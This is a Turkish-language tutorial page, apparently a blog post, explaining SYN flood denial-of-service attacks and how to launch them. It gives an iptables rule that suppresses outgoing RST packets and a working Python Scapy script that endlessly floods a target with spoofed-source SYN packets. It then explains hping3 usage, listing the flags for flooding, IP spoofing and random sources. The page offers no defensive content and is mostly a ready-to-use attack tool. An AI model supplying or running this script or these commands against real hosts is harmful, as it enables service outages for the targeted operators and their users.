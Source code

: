 <h2 id="syn-flood-ile-dosddos-saldırısı">SYN FLOOD ile DOS/DDOS Saldırısı</h2>

<p>SYN FLOOD saldırısı, sunucuya beklenen ACK kodunu göndermeyerek çalışan bir ataktır. Kötü niyetli istemci ya basit bir şekilde beklenen ACK‘yı göndermez ya da sahte IP adresi kullanarak SYN‘deki IP adres kaynağını zehirler(spoofing). Çünkü sunucu sahte IP adresine SYN-ACK göndermeye çalışır. Ancak ACK gönderemeyecektir çünkü o adresle bir SYN gönderilmediğini bilir.</p>

<p>Sunucu bir süre acknowledgement (kabul) için bekleyecektir. Fakat saldırılarda bu istekler sürekli artan şekilde olduğundan sunucu yeni bağlantı oluşturamaz duruma gelir. Ve sunucu devre dışı kalır.</p>



<h2 id="scapy-ile-synflood-saldırısı">Scapy ile SynFlood Saldırısı</h2>

<p>Öncesinde aşağıdaki iptables kuralının girlmesi gerekiyor</p>

<p>iptables -t filter -A OUTPUT -p tcp –tcp-flags RST RST -j DROP</p>

```
! /usr/bin/python

import sys
import random
from scapy.all import *

def main(argv):     
    while(1):       
                send(IP(src=str(random.randint(1,255))+"."+str(random.randint(1,255))+"."+str(random.randint(1,255))+"."+str(random.randint(1,255)),dst=sys.argv[1],id=123,ttl=100)/TCP(sport=RandShort(),dport=80,seq=123456,ack=1000,window=1000,flags="S"))

if __name__ == "__main__":
    main(sys.argv[1:])
```



<h2 id="hping-ile-syn-flood-saldırısı">Hping ile Syn FLood Saldırısı</h2>

<p>Hping, TCP / IP protokolü için ücretsiz bir paket üreteci ve analizörüdür. Güvenlik denetim ve güvenlik duvarlarının ve ağlarının test edilmesi için yararlı araçlardan biridir ve artık Nmap Security Scanner’da da kullanılmaktadır. <br>
Windows ve MacOs için <a href="http://www.hping.org">http://www.hping.org</a> bu adresten,</p>

<p>Ubuntu için:</p>

`sudo apt-get install hping3`

<p>bu şekilde indirebilirsiniz.</p>

<p><strong>Kullanımı:</strong></p>

`hping3 [options] IP`

<p><strong>Bazı parametreleri</strong></p>

<p>-flood: Gelen yanıtları göstermeye hiç dikkat etmeden mümkün olduğunca hızlı paket gönderilir. <br>
-I: Arayüz kullanılacaktır (isteğe bağlı birden fazla arayüze bağlıysanız kullanınız) <br>
 -1: ICMP modu <br>
 -2: UDP modu <br>
 -a: Kaynağı IP spoof yapar. <br>
 -p: Hedef port <br>
 -S: SYN bayrağı gönderme <br>
 –rand-source: Random iplerden gönderme <br>
 -c  = Gönderilen paket sayısı . (0 ise sınırsız gönderir.) <br>
 -d = Hedef makineye gönderilen her paketin boyutu. <br>
